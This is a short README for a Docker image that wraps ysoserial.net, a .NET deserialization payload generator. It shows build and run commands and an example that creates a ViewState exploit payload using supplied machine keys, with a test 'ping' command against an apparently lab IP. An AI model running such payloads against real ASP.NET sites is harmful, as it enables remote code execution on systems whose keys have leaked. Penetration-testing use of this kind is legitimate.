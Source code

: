 ## Docker image for ysoserial.net

This is modified version that use docker alpine instead of ubuntu from https://github.com/ar0x4/ysoserial.net-docker 

### Usage

- Build the image
```bash
docker build -t ysoserial.net .
```

- Run the image
```bash
docker run -dit --name ysoserial ysoserial.net
```

- You can also use the ysoserial_runner.sh script to interact with ysoserial.net
```bash
alias ysoserial='/opt/scripts/ysoserial_runner.sh '

ysoserial run '-p ViewState  -g TextFormattingRunProperties -c "ping 10.10.14.95" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"'
```

#### Example

![alt text](images/image.png)
